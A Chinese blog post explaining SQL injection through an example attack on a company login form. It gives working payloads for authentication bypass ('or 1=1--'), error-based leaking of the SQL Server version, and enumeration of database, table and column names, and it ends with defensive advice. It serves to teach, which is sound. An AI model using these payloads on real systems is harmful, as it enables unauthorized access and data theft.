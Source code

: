 ```yaml
---
title: 什么是sql注入
time: 2019-11-12
categories: mybatis
tags: mybatis
---
```


# 什么是sql注入

直接举个例子说明一下这个sql注入的全过程吧~

## 初步注入–绕过验证，直接登录

公司网站登陆框如下：
![20180321110526347.png](https://i.loli.net/2019/11/12/AXGMZOKdBJgetFn.png)

可以看到除了账号密码之外，还有一个公司名的输入框，根据输入框的形式不难推出SQL的写法如下：
SELECT * From Table WHERE Name=’XX’ andPassword=’YY’ and Corp=’ZZ’
我发现前两者都做一些检查，而第三个输入框却疏忽了，漏洞就在这里！注入开始，在输入框中输入以下内容：

![20180321110534421.png](https://i.loli.net/2019/11/12/sdRHXfmVbouYkKJ.png)

用户名乱填，密码留空，这种情况下点击登录按钮后竟然成功登录了。我们看一下最终的SQL就会找到原因：
SELECT * FromTable WHERE Name=’SQL inject’ and Password=” and Corp=” or 1=1–’
从代码可以看出，前一半单引号被闭合，后一半单引号被 “–”给注释掉，中间多了一个永远成立的条件“1=1”，这就造成任何字符都能成功登录的结果。而Sql注入的危害却不仅仅是匿名登录。

## 中级注入–借助异常获取信息。
现在我们在第三个输入框中写入：“‘ or 1=(SELECT@@version) –”。如下：
![20180321110545134.png](https://i.loli.net/2019/11/12/COzlpAoHNe83BDY.png)

后台的SQL变成了这样：

SELECT * FromTable WHERE Name=’SQL inject’ and Password=” and Corp=” or 1=(SELECT@@VERSION)–’

判断条件变成了 1=(SELECT@@VERSION),这个写法肯定会导致错误，但出错正是我们想要的。点击登录后，页面出现以下信息：
Conversion failedwhen converting the nvarchar value ‘Microsoft SQL Server 2008 (SP3) -10.0.5500.0 (X64) Sep 21 2011 22:45:45 Copyright (c) 1988-2008 MicrosoftCorporation Developer Edition (64-bit) on Windows NT 6.1 <X64> (Build7601: Service Pack 1) ’ to data type int.

可怕的事情出现了，服务器的操作系统和SQL Server版本信息竟然通过错误显示出来。

## 危害扩大–获取服务器所有的库名、表名、字段名
接着，我们在输入框中输入如下信息：“t’ or 1=(SELECTtop 1 name FROM master..sysdatabases where name not in (SELECT top 0 name FROMmaster..sysdatabases))–”，此时发现第三个输入框有字数长度的限制，然而这种客户端的限制形同虚设，直接通过Google浏览器就能去除。

点击登录，返回的信息如下：

Conversion failedwhen converting the nvarchar value ‘master’ to data type int.

数据库名称“master”通过异常被显示出来！依次改变上面SQL语句中的序号，就能得到服务器上所有数据库的名称。

接着，输入信息如下：“b’ or 1=(SELECTtop 1 name FROM master..sysobjects where xtype=’U’ and name not in (SELECT top1 name FROM master..sysobjects where xtype=’U’))–”

得到返回信息如下：

Conversion failedwhen converting the nvarchar value ‘spt_fallback_db’ to data type int.

我们得到了master数据库中的第一张表名：“spt_fallback_db”，同上，依次改变序号，可得到该库全部表名。
于是，得到错误提示如下：

“Conversionfailed when converting the nvarchar value ‘xserver_name’ to data typeint.”;

这样第一个字段名“xserver_name”就出来了，依次改变序号，就能遍历出所有的字段名。

## 结语
关于安全性，本文可总结出一下几点：

1.  对用户输入的内容要时刻保持警惕。

2.  只有客户端的验证等于没有验证。

3.  永远不要把服务器错误信息暴露给用户。

除此之外，我还要补充几点：
1.  SQL注入不仅能通过输入框，还能通过Url达到目的。

2.  除了服务器错误页面，还有其他办法获取到数据库信息。

3.  可通过软件模拟注入行为，这种方式盗取信息的速度要比你想象中快的多。

4.  漏洞跟语言平台无关，并非asp才有注入漏洞而asp.net就没有注入漏洞，一切要看设计者是否用心。

